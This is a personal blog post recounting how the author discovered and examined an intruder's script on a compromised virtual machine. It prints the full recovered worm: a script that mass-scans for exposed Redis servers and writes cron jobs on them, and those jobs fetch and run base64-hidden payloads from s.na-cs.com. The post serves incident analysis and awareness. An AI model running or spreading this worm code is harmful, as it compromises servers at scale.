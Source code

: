 +++
title = 'A Journey into Unseen Threats on our VM'
date = 2024-05-04T19:51:57.5757+05:30
draft = false
tags =['hacking']
+++ 

As the sun set on a typical Saturday evening, I found myself engrossed in a blog titled "[Visualizing Malicious IP Addresses.](https://romeov.github.io/malicious_ip_addresses/malicious_ip_analysis.html)" The author shared clever ways to detect unauthorized attempts to access virtual machines via SSH, using commands like:

```sh
$ journalctl --since "-1d" -u sshd | grep "Failed password" | wc -l
$ journalctl --since "-1d" -u sshd | grep "Failed publickey" | wc -l
```

Curious, I decided to try these commands on our own VM. To my relief, the output was zero—no unauthorized login attempts. But my curiosity was piqued. I delved deeper into journalctl, discovering a command to display all Systemd logs with process IDs:

```sh
journalctl -f -o verbose
```

Upon executing the query on our VM, I encountered an intriguing error that immediately captured my attention.

```
 MESSAGE=/etc/.httpd/.../httpd: line 43: pnscan: command not found
```

"Pnscan?" I muttered to myself, furrowing my brows. A quick Google search revealed that "pnscan" is a tool for scanning network ports—a tool we certainly hadn't authorized on our VM.

Determined to unravel this mystery, I extracted the process ID from the journalctl logs and ventured into the depths of the `/proc` directory. Inside the PID folder, I hoped to glean more insights into this rogue process.

My first stop was the `cmdline` file, where I discovered the command that initiated the process 

```
 `/bin/bash/etc/.httpd/.../httpd`
```

It seemed innocuous enough—a command to run the Apache server. But something didn't add up. Next, I turned my attention to the `fd` folder, hoping to find clues in the standard output and standard error streams. To my surprise, there was nothing there—except for a mysterious file named `255`.

I cat the content of of the file and i got the below content

```sh
#!/bin/bash
setenforce 0 2>/dev/null
ulimit -u 50000
sleep 1
iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/null
iptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/null
sleep 1
      
rm -rf .dat .shard .ranges .lan 2>/dev/null
sleep 1
echo 'config set dbfilename "backup.db"' > .dat
echo 'save' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/"' >> .dat
echo 'config set dbfilename "root"' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'save' >> .dat
echo 'config set dir "/tmp"' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/crontabs"' >> .dat
echo 'save' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'config set dir "/etc/cron.d/"' >> .dat
echo 'config set dbfilename "zzh"' >> .dat
echo 'save' >> .dat
echo 'config set dir "/etc/"' >> .dat
echo 'config set dbfilename "crontab"' >> .dat
echo 'save' >> .dat
sleep 1
pnx=pnscan
[ -x /usr/local/bin/pnscan ] && pnx=/usr/local/bin/pnscan
[ -x /usr/bin/pnscan ] && pnx=/usr/bin/pnscan
while true
do
for x in $( echo -e "47\n39\n8\n121\n106\n120\n123\n65\n3\n101\n139\n99\n63\n81\n44\n18\n119\n100\n42\n49\n118\n54\n1\n50\n114\n182\n52\n13\n34\n112\n115\n111\n116\n16\n35\n117\n124\n59\n36\n103\n82\n175\n122\n129\n45\n152\n159\n113\n15\n61\n180\n172\n157\n60\n218\n176\n58\n204\n140\n184\n150\n193\n223\n192\n75\n46\n188\n183\n222\n14\n104\n27\n221\n211\n132\n107\n43\n212\n148\n110\n62\n202\n95\n220\n154\n23\n149\n125\n210\n203\n185\n171\n146\n109\n94\n219\n134" | sort -R ); do
for y in $( seq 0 255 | sort -R ); do
$pnx -t512 -R '6f 73 3a 4c 69 6e 75 78' -W '2a 31 0d 0a 24 34 0d 0a 69 6e 66 6f 0d 0a' $x.$y.0.0/16 6379 > .r.$x.$y.o
awk '/Linux/ {print $1, $3}' .r.$x.$y.o > .r.$x.$y.l
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw &
done < .r.$x.$y.l
done
done
done
sleep 1
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .shard
sleep 1
masscan --max-rate 10000 -p6379 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .ranges
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .ranges
sleep 1
ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's/\/\([0-9]\{2\}\)/\/16/g' > .inet
sleep 1
masscan --max-rate 10000 -p6379 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lan
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .lan
sleep 60
rm -rf .dat .shard .ranges .lan 2>/dev/null

```


The script appears to conduct a Redis database backup, despite our VM not utilizing Redis. Of particular interest is the line:

```bash
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
```

1. **masscan**: Performs a network scan.
   - `--max-rate 10000`: Limits packet sending to 10,000 per second.
   - `-p6379`: Targets port 6379, commonly associated with Redis.
   - `--shard $( seq 1 22000 | sort -R | head -n1 )/22000`: Divides the scan into shards, choosing a random shard from 1 to 22000.
   - `--exclude 255.255.255.255 0.0.0.0/0`: Excludes specific IP ranges from the scan.
   - `2>/dev/null`: Suppresses error messages.
   
2. **`| awk '{print $6, substr($4, 1, length($4)-4)}'`**:
   - Processes `masscan` output to extract status and IP/port information.
   
3. **`| sort | uniq > .shard`**:
   - Sorts and removes duplicates from the extracted data, saving it to a file named `.shard`.

In summary, the script attempts to scan and connect to Redis servers across different networks, possibly with intentions to execute commands outlined in the `.dat` file, which could be malicious. Furthermore, it tries to disable SELinux and adjust user limits, suggesting unauthorized access and system modification. This underscores the importance of vigilance in monitoring and securing systems against potential threats.

the content of .dat file was 

```sh
config set dbfilename "backup.db"
save
flushall
config set dir "/var/spool/cron/"
config set dbfilename "root"
set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
save
config set dir "/tmp"
flushall
config set dir "/var/spool/cron/crontabs"
save
set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
config set dir "/etc/cron.d/"
config set dbfilename "zzh"
save
config set dir "/etc/"
config set dbfilename "crontab"
save
```

This script setup cron job to excute the script from remote url `http://s.na-cs.com/b2f628/b.sh`encoded in base64 format (`echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64`), I encountered an unexpected roadblock—the URL was inaccessible. Despite my efforts to uncover the script's intentions through the `/proc` file system, my investigation yielded no further insights.

Ultimately, I made the decision to delete the compromised VM and initiate the creation of a new one, ensuring the integrity of our system's security.
